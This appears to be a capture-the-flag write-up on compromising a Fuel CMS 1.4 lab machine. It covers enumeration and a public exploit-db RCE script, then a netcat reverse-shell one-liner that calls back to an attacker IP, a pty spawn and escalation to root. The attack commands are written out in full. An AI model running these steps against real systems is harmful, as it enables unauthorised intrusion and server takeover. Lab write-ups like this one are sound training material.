




So this our first look our target after opening the ip into the browser



The directory enumuaration reuslt were

- README.md
- robots.txt > /fuel/
- /contibuting.md
- composer.json

When i went to robots.txt and it gave me one more endpoint that is /fuel

When i went to /fuel it redirected me to a login page.



After getting the login page we tried

Bruteforcing the page but there was rate limiting so we left it

And if keep scrooling the homepage to the bottom we have got the credentials to login.

After loggedin here is our first look.



As i search on internet for fuel cms 1.4 vuln i got this



And when i do reseach about that specific cve i got it could lead to rce.

It was https://www.exploit-db.com/exploits/50477

Its usage is just download it and run it with

python3 <filename> -u <target_url>

As you do so you will get the shell.

Now for the answer of question1.

As it is asked what is user.txt

The answer is contained in a file named /home/www-data/flag.txt

Next we're going to do privilage escalation to get the root flag.

This particular paragraph tells something is stored inside the database.php. Let’s check it out.


After checking it out i got this


The figure above shows the reverse shell command using Netcat. Before running the command, make sure you have your listener on another terminal. Use the following command.


```bash
nc -lvnp 4444
```

After that, copy this command in the python script remote shell.

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Tunnel IP> 4444 >/tmp/f


Make sure you use your tunnel IP. After that, your Netcat will prompt a reverse shell of the server.


Alright, we got the reverse shell. Time to make ourselves a superuser using su command.


Wait a sec, you can’t run su command on the shell !! This is because /bin/sh of the server is turned off or disabled. We need to spawn a shell using the python.

python -c 'import pty; pty.spawn("/bin/sh")'
You are now allowed to enter the su command the password to root the machine.


Now are as root and we can not enter get the root flag at the location /root/root.txt
